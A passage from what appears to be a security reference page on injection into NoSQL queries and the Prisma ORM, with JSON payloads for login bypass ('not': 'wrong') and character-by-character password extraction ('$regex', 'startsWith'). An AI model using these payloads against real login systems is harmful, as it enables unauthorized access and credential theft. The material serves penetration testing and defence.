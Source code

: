 {% code title="Regex Extraction" %}
```json
{
  "username": "admin",
  "password": {
    "$regex": "^a"
  }
}
```
{% endcode %}

### Prisma

See [Filter Conditions and Operators](https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#filter-conditions-and-operators) for a full list. Similar to MongoDB, the common [Prisma](https://www.prisma.io/) ORM allows using operators anywhere in your query object. The naming scheme is plain and can only be used when Prisma expects it, like when you open brackets on what should be a string. \
The functionality is basically the same as MongoDB, just with some other names:

{% code title="Login Bypass" %}
```json
{
  "username": "admin",
  "password": {
    "not": "wrong"
  }
}
```
{% endcode %}

{% code title="Regex Extraction" %}
```json
{
  "username": "admin",
  "password": {
    "startsWith": "a"
  }
}
```
{% endcode %}

{% hint style="info" %}
You can get creative with [`OR`](https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#or) and [`startsWith`](https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#startswith) operators to specify half of the possibilities like in [#regex-binary-search](nosql-injection.md#regex-binary-search "mention") to achieve the optimized performance again
{% endhint %}
